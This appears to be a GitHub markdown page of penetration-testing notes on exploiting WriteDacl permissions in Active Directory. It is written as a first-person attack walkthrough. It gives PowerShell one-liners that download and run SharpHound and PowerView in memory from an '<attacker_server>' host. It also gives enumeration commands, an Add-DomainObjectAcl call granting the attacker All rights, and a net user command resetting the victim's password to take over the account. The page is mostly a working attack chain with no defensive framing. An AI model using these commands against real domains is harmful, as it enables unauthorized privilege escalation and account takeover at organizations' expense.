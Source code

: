 # <h1 align="center" id="heading">WriteDacl</h1>
There are a few ways that I can check for WriteDacl privileges within an Active Directory environment. The first and easiest is through BloodHound. I can collect BloodHound graphing information for the target domain in a few ways. The easiest and most accurate way is through SharpHound collection. I prefer to run the collection in memory with the following command:
```powershell
IEX(new-Object System.Net.WebClient).DownloadString("http://<attacker_server>/SharpHound.ps1");Invoke-BloodHound -CollectionMethod All
```
If I have valid domain credentials, I can use the Python collector BloodHound.py. This can be run from any platform that has Python support so I do not need to rely solely on Windows. This comes in handy when I find myself on a Domain-joined linux system. I can use the following command to execute the BloodHound graphing information collection:
```console
bloodhound-python -u <username> -p '<password>' -ns <target ip> -d <domain name> -c all
```
This may or may not work depending on the target system! I can also use the following PowerView command to enumerate the presence of WriteDacl much faster:
```powershell
IEX(new-Object System.Net.WebClient).DownloadString("http://<attacker_server>/PowerView.ps1");Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
Once I discover the presence of WriteDacl over an object I can go about exploiting this misconfiguration by granting my current domain user All rights over it with the following command:
```powershell
Add-DomainObjectAcl -TargetIdentity <target user> -PrincipalIdentity <current user> -Rights All
```
After I grant All rights to my target I can check to see if those changes were applied by running the following command:
```powershell
Get-ObjectAcl -Identity testservice2 -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```
I can now finish the exploit by changing the user's password with the following command:
```powershell
net user <target user> Password123! /domain
```
After chaning the user's password, I will be able to establish a session as that user in any way it is allowed to authenticate!
